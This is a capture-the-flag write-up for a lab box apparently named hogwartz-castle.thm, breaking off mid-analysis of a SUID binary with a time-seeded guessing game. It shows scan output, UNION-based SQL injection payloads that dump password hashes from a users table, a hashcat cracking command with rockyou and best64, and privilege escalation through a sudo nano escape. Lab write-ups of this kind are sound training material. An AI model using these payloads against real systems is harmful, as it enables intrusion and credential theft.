# Port Scanning
```bash
❯ rustscan -a 10.48.147.249 -- -A

Open 10.48.147.249:22
Open 10.48.147.249:80
Open 10.48.147.249:139
Open 10.48.147.249:445

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:2b:39:29:2e:26:5d:42:a9:67:7d:90:cd:da:1f:6b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEN9XdG0xq/6oLc4IWf0Ny2QsK/MywFXh9jkHzJHcg0aI8HIzaXErK4VWEYimcryExvE2bTtcnh0a7DHSLJpf3aJz1OiYWWa4kcKQnzAi8nWUe7lyhnHEWEGcrvwZS3zOZR38dYZbLduoNkiCrsV1VSjxt1CQXxiHyJVS2KYLtsTnonSYeNaoAuiWJdMu652OdUNQMwe3GHYveSqaIcgMn9+rM/MbJ8bntLo2n9GBE39BIIEWaKsCg6VW/9abi7M3woxT3R1EKyZKAbripf05pUX6hIqff/6u2p3BJL+/g9uBJL6dt/jD97hcK1kRTSDLZfxGmt2CMh7kFqw3pzO6wik/0KHizhlOgS5Ix0msyqQ0xl4BFYcN4evFUw1EZtYzynKJOVFHjLzKjwRk2HCn0HGUUfzen15757VLYHdtX27ylcfB77KbPjYSiNm1HKWn3kuegD+0l6MKUcpdMI9wQ4pCEGWptEdY973rseemtUYuyxbMSrXDxfj+KDh6TZhU=
|   256 0c:d2:11:b1:29:3d:d7:51:7c:39:c4:3e:d0:9c:2e:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBATfMUrNP5tj3/gMOAaQ+FGPCIDw5MY6Q94ZkVIBzzrssZYtAbmIKjbVXBvkm6UHOZ0WhbqyPFaR+O3xKptuImA=
|   256 d1:22:bf:20:3f:df:2f:26:14:75:49:e5:ec:cd:81:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrvtNfYmXsNw47Z7cpQtWVAXpbUFl/T7rA6Kv/0e1sh
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51261/tcp): CLEAN (Timeout)
|   Check 2 (port 32046/tcp): CLEAN (Timeout)
|   Check 3 (port 28628/udp): CLEAN (Timeout)
|   Check 4 (port 25683/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-08-15T03:23:10
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   <00>                 Flags: <unique><active>
|   <03>                 Flags: <unique><active>
|   <20>                 Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: -1s
```
First I look for the SMB and found the following. <br/>
 <br/>
 <br/>
 <br/>
A note that suggests `rockyou` wordlist and some username. <br/>
After that I look at the  website <br/>
 <br/>
Which is plane.   <br/>
By directory bruteforcing I found `/backup` then `/backup/email` <br/>
 <br/>
 <br/>
Visiting the email. <br/>
 <br/>
A vhost `hogwartz-castle.thm` <br/>
In the source code section I also found the vhost. <br/>
 <br/>
So I mapped the IP with the host and give a visit. <br/>
 <br/>
A login page. So I tried SQLI. <br/>
 <br/>
through sqlmap I figureout the databse is `sqlite` and the table name is `users`. <br/>
 <br/>
After that I tried to dump the database with sqlmap. But I failed. So I had to try manually.  <br/>
##### Password hash 
```txt
'union select group_concat(password),2,3,4 FROM users-- --
```
 <br/>
##### Names 
```txt
'union select group_concat(name),2,3,4 FROM users-- --
```
 <br/>
##### Notes
```txt
'union select group_concat(notes),2,3,4 FROM users-- --
```
 <br/>
I arranged them in a file and found the interesting line. <br/>
 <br/>
```txt
2  | Harry Turner       | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885 | My linux username is my first name and password uses best64
```
Using hashcat I identified and cracked the hash. <br/>
 <br/>
```bash
hashcat -m 1700 -a 0 -r /usr/share/hashcat/rules/best64.rule harry.txt /usr/share/wordlists/rockyou.txt
```
 <br/>
Using the password I logged in as user harry via ssh. And got the first flag. <br/>
 <br/>
# Harry to Hermonine
There is another user hermonine. running `sudo -l` I found privilege to run `/usr/bin/pico` which is actually `/bin/nano`. From GTFObins I have found the way to be hermonine. following the steps I got shell as hermonine. <br/>
 <br/>
I put ssh public key on the .ssh folder of hermonine user. And logged in via ssh. <br/>
Then I ran `linpeas.sh`. Found an interesting binary with SUID bit set. <br/>
 <br/>
Downloaded the binary and reverse it. <br/>
Short analysis of the source code is: <br/>
1. **Generates a random number**: `v3 = rand()` (seeded with `time(NULL)`)
2. **Asks for a guess**: `printf("Guess my number: ")`
3. **Compares**: `if (v3 != v2)` - if wrong, it tells you the number and exits
4. **If correct**: Calls `impressive()` which:
    - Sets EUID/EGID to 0 (root) with `setregid(0,0)` and `setreuid(0,0)`
    - Executes `system("uname -p")`
##### The Critical Flaw
Since `srand(time(NULL))` seeds the random number generator with the current time, **you can predict the random number**! The binary is running with root SUID, so if you guess correctly, it will execute `system("uname -p")` as root. <br/>
